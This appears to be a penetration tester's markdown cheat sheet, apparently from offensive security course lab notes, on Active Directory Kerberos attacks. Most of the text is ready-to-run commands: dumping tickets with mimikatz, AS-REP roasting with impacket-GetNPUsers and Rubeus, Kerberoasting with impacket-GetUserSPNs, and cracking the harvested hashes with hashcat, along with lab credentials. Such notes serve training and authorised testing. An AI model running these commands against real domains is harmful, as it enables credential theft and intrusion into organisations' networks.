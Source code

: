 ### Extracting Tickets
- We can use `mimikatz` to list tickets with `sekurlsa::tickets`

### AS-REP Roasting
- If a user account does not have _Kerberos preauthentication_ enabled, we can perform AS-REP Roasting
- To identify users that do not have this option set, we can use `PowerView.ps1` function `Get-DomainUser -PreauthNotRequired` or `impacket-GetNPUsers` withouth the `-request` and `-outputfile` parameter
```zsh
impacket-GetNPUsers -usersfile users.txt -dc-ip 192.168.50.70 'corp.com/'

impacket-GetNPUsers -dc-ip 192.168.210.70 'corp.com/jeff:HenchmanPutridBonbon11'
```
- Using `impacket-GetNPUsers` with the `-request` will give us a list of users that do not have this enabled along with the AS-REP hash for those users
```zsh
#Users queried via LDAP anonymous bind
impacket-GetNPUsers -dc-ip 192.168.50.70 -request -format hashcat -outputfile hashes.asreproast 'corp.com/'

#Users queried via LDAP anonymous bind
impacket-GetNPUsers -dc-ip 192.168.50.70 -usersfile users.txt -request -format hashcat -outputfile hashes.asreproast 'corp.com/'

#Users queried via LDAP bind with creds
impacket-GetNPUsers -request -format hashcat -outputfile hashes.asreproast -dc-ip 192.168.50.70 'corp.com/pete:Nexus123'

#User queried via LDAP bind with NT Auth
impacket-GetNPUsers -request -format hashcat -outputfile hashes.asreproast -hashes 'LMhash:NThash' -dc-ip 192.168.50.70 'corp.com/pete'

#With a users file
impacket-GetNPUsers -usersfile users.txt -request -format hashcat -outputfile hashes.asreproast -dc-ip 192.168.50.70 'corp.com/'
```
- We can also perform this on a domain hosts using `Rubeus.exe`
```powershell
.\Rubeus.exe asreproast /nowrap
```
- After obtaining the hashes, we can crack them using `hashcat`
```zsh
sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

### Kerberoasting
- We can try to bruteforce a service account password by requesting a service ticket (TGS-REP). Since the service ticket is encrypted using the SPNs password hash, we can try to bruteforce this and get the password of the service account
- We can use `impacket-GetUserSPN` to get TGS-REP hashes
```zsh
impacket-GetUserSPNs -dc-ip 192.168.50.70 -request -outputfile hashes.kerberoast 'corp.com/pete:Nexus123'
```
> [!HINT]
> If impacket-GetUserSPNs throws the error "KRB_AP_ERR_SKEW(Clock skew too great)," we need to synchronize the time of the Kali machine with the domain controller.
> `sudo timedatectl set-ntp off`
> `sudo rdate -n corp.com`
